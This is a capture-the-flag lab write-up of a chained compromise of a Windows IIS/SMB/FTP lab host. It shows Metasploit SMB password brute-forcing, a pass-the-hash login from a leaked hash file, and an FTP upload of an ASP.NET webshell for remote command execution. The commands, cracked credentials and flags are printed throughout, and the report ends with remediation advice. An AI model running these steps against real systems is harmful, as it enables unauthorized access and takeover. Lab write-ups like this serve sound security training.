# CTF Report: Exploitation II

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target:** target.ine.local (10.2.16.227) — Windows Server 2012, IIS 8.5 + SMB + FTP<br>
**Attacker:** 10.10.37.4 (Kali)<br>
**Objective:** Identify the services and capture all four flags.

> The lab IP changed between sessions (`10.2.16.227` and `10.2.22.114`); the method is
> identical.

## 1. Executive Summary

A chained compromise: SMB brute-force recovers `tom`'s password and the first flag; a
`leaked-hashes.txt` file in a share feeds a **Pass-the-Hash** login as `nancy` (second flag
+ a hint); the hint provides FTP credentials for `david`, whose FTP root **is the IIS web
root** (third flag). Uploading an ASP.NET webshell there gives remote command execution and
the fourth flag.

## 2. Recon

```bash
ping -c 4 target.ine.local
db_nmap -sV target.ine.local
hosts
```









## 3. Flag 1 — SMB Brute-Force (tom)

```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.2.22.114
set SMBUser tom
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
exploit
# Success: tom:felipe
```



Opening an SMB session and enumerating shares with smbmap.



```bash
smbmap -H 10.2.22.114 -u tom -p felipe
```



The `HRDocuments` share holds **flag 1** (`8d2f7fee75844ed49fa477c20bfd1133`).



A `leaked-hashes.txt` file is also present.



## 4. Flag 2 — Pass-the-Hash (nancy)

```bash
use auxiliary/scanner/smb/smb_login
set SMBUser nancy
set PASS_FILE leaked-hashes.txt
set CreateSession true
exploit
# Success: nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad
```



The `ITResource` share holds **flag 2** (`1d679a44f86f44b88daceb490afda81c`) and a hint
(FTP credentials for `david`).





## 5. Flag 3 — FTP (david) = IIS Web Root

`nancy` can't open other shares, so we use the leaked FTP credentials.

```bash
ftp 10.2.16.227      # david
ls                   # aspnet_client, flag3.txt, iisstart.htm  (the IIS web root!)
get flag3.txt
# ef6f5d157c53430abca77550dfefd510
```



## 6. Flag 4 — ASP.NET Webshell (RCE)

Because the FTP root is the web root, we upload an ASP.NET webshell.

```bash
ftp> put web.aspx
```



Browsing to it gives command execution.

```
http://target.ine.local/web.aspx   ->   Command: type C:\flag4.txt
```

```
Flag 4: ede77b9f9c3b472da7721ce7a2b81ac9
```





## 7. Remediation Recommendations

1. **Enforce strong, rotated passwords** and account lockout — `tom` fell to a wordlist and
   `nancy` to a leaked hash.
2. **Never store credential/hash files in shares**; restrict share access by least privilege.
3. **Separate the FTP root from the web root**, make upload dirs non-executable, and disable
   anonymous/weak FTP — this chain turned an upload into RCE.
4. **Patch and monitor IIS** for webshell uploads (new `.aspx` files, anomalous `w3wp.exe`
   children).
